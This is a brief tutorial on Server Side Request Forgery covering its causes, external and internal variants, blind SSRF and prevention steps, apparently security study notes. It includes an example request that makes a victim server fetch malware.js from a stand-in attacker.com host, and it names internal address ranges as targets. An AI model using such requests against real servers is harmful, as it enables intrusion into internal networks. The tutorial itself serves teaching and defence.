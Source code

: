 # SSRF(Server Side Request Forgery)

SSRF occurs when an server side application allows an attacker to make the server perform HTTP requests to internal or external resources on behalf of the attacker. It does this by taking a URL or partial URL from the user and then making a request to that endpoint often the application will then process the results and then return some data back to the user

## Reasons of SSRF

1. Accept the user supplied URL or hostname
2. Make a server side request based on that URL given by the user
3. Does not validate the destination

## Attacker point of view

1. External SSRF

Making requests to the external domain and can be used to scan internet services

Example: http://victim_url/fetch?url=http://attacker.com/malware.js

2. Internal SSRF

Access to the internal networks such as 127.0.0.1, 192.162.x.x,10.x.x.x to reach internal admin panels, DB console,etc. Sometime leads to Remote Code Execution(RCE)

## Type of SSRF

1. Blind SSRF

It is similar to blind SQL Injection attack, in this case of Blind Server Side Request Forgery, we won't be able to view the results of our payload in the HTTP response and a lot of them might take some time to timeout, or they might instantly come back saying that it doesn't exist

In other cases the endpoint of probing for might exist and the timing of response may be differ

## Prevention

1. Input Validation

Only allowing specific domain in the whitelisting, rejecting IP addresses directly such as 127.0.0.1, reject malformed or encoded inputs

2. Disable Unused Protocols

Block file://,gopher://,ftp:// unless it is needed
